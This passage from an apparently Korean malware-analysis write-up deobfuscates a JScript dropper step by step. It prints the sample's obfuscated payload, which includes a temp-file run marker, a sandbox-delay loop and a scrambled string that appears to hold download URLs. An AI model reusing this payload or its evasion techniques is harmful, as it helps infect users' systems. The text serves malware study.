 
```javascript
function VX30() {
    FQ96 = kZ37("sp\l\it", **ew84**, Li29);
}
```

아직 ew84를 실행하지 않는 것을 보니, *deobfuscate*가 덜 끝났나보다.

실제로 ew84의 데이터를 확인하기 위해 다음과 같은 스크립트를 하단에 추가해서 실행해보았다.

```javascript
var myMsgBox=new ActiveXObject("wscript.shell")
myMsgBox.Popup (ew84)

myMsgBox.Popup (Li29)
```

그러자 다음과 같은 팝업이 떴다.

```javascript
constructorqyllxnubper='';CQ12 = WScript.CreateObject("Scripting.FileSystemObject");OA92=CQ12["Ge"+"tSpe"+"ci"+"alF"+"olde"+"r"](4-2)+"\\Hv129167.tmp";if (CQ12.FileExists(OA92)) WScript.Quit();CQ12.CreateTextFile(OA92, true).Close();fo32 = 6; while (fo32 < 15092609 ) { Math[""+"s"+""+"q"+""+"r"+""+"t"+""]((fo32)); fo32=fo32+2-1; }FQ96[5-2](fW4('tast.u6s8 r=W=(=  f2i0 0})  ;{e svlaarf  Snyr4u3t e=r  W{r)8e6(.hrcetsapco}n s;e)T(edxnte;s .i6f8 r(W( S;y)4e3s.lianfd e,x4O4fY(y\"+@\"\"=+iynYu4b4g+e\"e@x\"l,t h0h)e)?=\"=+-\'1p)h p{. mWuSrcorfi/p\'t+.]s5l5eDejp[(4282a2Z2+2\')/;/ :}p tetlhs\'e  ,{\' TSEyG4\'3( n=e pSoy.4638.rrWe p{lyarcte (;\")@0\"3++y0Y74,42+(\"]@\"\"r,t\"s\"b)u;s \"v[a)r( gfnSi8r5t S=o tS.y)4(3m.ordenpalra.chet(a/M( \\=d {424}Y)y/ g;,) \'fPuTnTcHtLiMoXnr e(vSrde9S7.)2 L{M XrSeMt\'u(rtnc eSjtbrOientga.efrrCo.mtCphiarrcCSoWd e=( p6a8rrsWe I{n t)(3S d<9 75,51D0j)(+ 3e0l)i;h w} );;0  F=Q 9565[D3j] (;f]S\"8m5o)c(.)o;d -WdSncar-iepbt..wQwuwi\"t,(\")e;d .}j 4}o .ewlwswe\" ,{\" lWpS.cdrcilp-tm.esjlaeneypw(.2t2s2e2t2.)w;w w}\" [j D=5 54+8+a;Z}'))(fo32);tcgmac=FQ96;

____________________________

qyllx
```

아직 난독화가 되어있다. FQ96에는 'qyllx'를 구분자로 하여 ew84데이터를 split해간다.

즉 FQ96[0]에는 constructor라는 데이터가 담기고,

FQ96[1]에는 난독화가 된 코드가 담길 것이다.



```javascript
NW87();
nb5();
```

이후 이 함수가 실행되고 스크립트는 끝이 난다.



NW함수를 들여다 보자.

```javascript
function NW87() {
    FQ96[xj34] = EO49[FQ96[qN252]];
}
```
